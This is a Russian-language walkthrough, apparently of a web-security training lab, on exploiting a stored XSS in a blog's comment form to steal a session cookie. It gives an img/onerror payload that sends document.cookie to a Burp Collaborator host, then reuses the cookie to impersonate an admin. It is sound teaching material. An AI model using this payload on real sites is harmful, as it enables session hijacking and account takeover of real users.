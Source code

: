 ![image](https://github.com/user-attachments/assets/6729768d-caae-4d96-8350-4b9f93340407)![image](https://github.com/user-attachments/assets/d9982d81-88db-4261-b408-f54eaf6bd9a5)Использование межсайтового скриптинга для кражи файлов cookie
Кража куки — традиционный способ эксплуатации XSS. Большинство веб-приложений используют куки для обработки сеансов. Вы можете использовать уязвимости межсайтового скриптинга, чтобы отправлять куки жертвы на свой домен, а затем вручную внедрять куки в браузер и выдавать себя за жертву.

На практике этот подход имеет ряд существенных ограничений:

Жертва, возможно, не вошла в систему.
Многие приложения скрывают свои файлы cookie от JavaScript с помощью этого HttpOnlyфлага.
Сеансы могут быть заблокированы по дополнительным факторам, таким как IP-адрес пользователя.
Время сеанса может истечь до того, как вы успеете его перехватить.

Эта лаборатория содержит сохраненную уязвимость XSS в функции комментариев блога. Имитируемый пользователь-жертва просматривает все комментарии после их публикации. Чтобы решить эту лабораторную работу, воспользуйтесь уязвимостью, чтобы извлечь сеансовый cookie жертвы, а затем используйте этот cookie, чтобы выдать себя за жертву.

1. Заходим на любой из постов, и внизу страницу видим форму комментария:

![image](https://github.com/user-attachments/assets/7e05df63-7a32-461d-8c65-cb8ae6870f8c)

2. Ввели в форму случайные значение, а в сам комментарий добавляем полезную нагрузку <img src=x onerror=this.src='http://burp.collaborator.url/?c='+document.cookie>

3. зайдите на вкладку Collaborator и нажмите «Poll now». Вы должны увидеть HTTP-взаимодействие. Если вы не видите никаких взаимодействий в списке, подождите несколько секунд и попробуйте еще раз.

![image](https://github.com/user-attachments/assets/42799ca7-4967-4a3c-9830-6d3c89f19847)

4. Обратите внимание на значение cookie-файла жертвы в теле POST-запроса.

![image](https://github.com/user-attachments/assets/f6106c1e-e2d0-4903-ab3d-e04cd09240ce)

5. Перезагрузите главную страницу блога, используя Burp Proxy или Burp Repeater, чтобы заменить ваш собственный сеансовый cookie на тот, который вы захватили в Burp Collaborator. Отправьте запрос на решение лабораторной работы. Чтобы доказать, что вы успешно перехватили сеанс пользователя-администратора, вы можете использовать тот же cookie в запросе на /my-accountзагрузку страницы учетной записи пользователя-администратора.

